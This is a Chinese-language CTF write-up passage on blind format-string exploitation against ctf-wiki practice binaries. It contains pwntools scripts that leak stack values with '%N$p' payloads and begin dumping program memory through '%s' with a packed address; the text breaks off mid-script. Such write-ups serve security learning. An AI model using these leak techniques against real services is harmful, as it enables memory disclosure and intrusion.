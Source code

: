 这一块看的我有点晕...

## 格式化字符串盲打

[fmt_blind_stack](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_stack)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594863835878-fa61e03a-d3af-4459-b6e7-e2ea4705378c.png)

告诉我们flag在栈上，那一个个试就好

```py
from pwn import *
context.log_level = 'error'


def leak(payload):
    #sh = remote('127.0.0.1', 9999)
    sh = process('./blind')
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594863964077-1236466e-9bc8-48d8-a233-e4446817504d.png)

[blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_got) 

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594864187931-f1f323d1-3238-4fe0-ae89-4517bb7e98fd.png)

偏移为6

由于程序是 64 位，所以我们从 0x400000 处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入 '\x00' 字符的，，不然没法泄露怎么玩，，除此之后，输出必然是 '\x00' 截断的，这是因为格式化字符串漏洞利用的输出函数均是 '\x00' 截断的。。所以我们可以利用如下的泄露代码。

```py
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
```